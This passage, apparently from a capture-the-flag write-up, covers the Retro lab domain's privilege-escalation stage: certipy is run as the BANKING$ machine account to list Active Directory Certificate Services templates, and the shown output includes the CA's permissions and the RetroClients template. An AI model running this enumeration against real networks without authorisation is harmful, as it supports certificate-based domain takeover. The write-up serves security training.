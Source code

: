 ## Shell as Administrator

### Enumeration

BANKING$ has the same SMB access as Trainee. I don’t have a way to get a shell. I’ll turn to ADCS.

I have `certipy` search for any vulnerable templates:

```

oxdf@hacky$ certipy find -u 'BANKING$@retro.vl' -p 0xdf0xdf -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'retro-DC-CA' via RRP
[*] Successfully retrieved CA configuration for 'retro-DC-CA'
[*] Checking web enrollment for CA 'retro-DC-CA' @ 'DC.retro.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00
    Certificate Validity End            : 2028-07-23 21:13:50+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : RETRO.VL\Administrators
      Access Rights
        ManageCa                        : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        ManageCertificates              : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Enroll                          : RETRO.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
```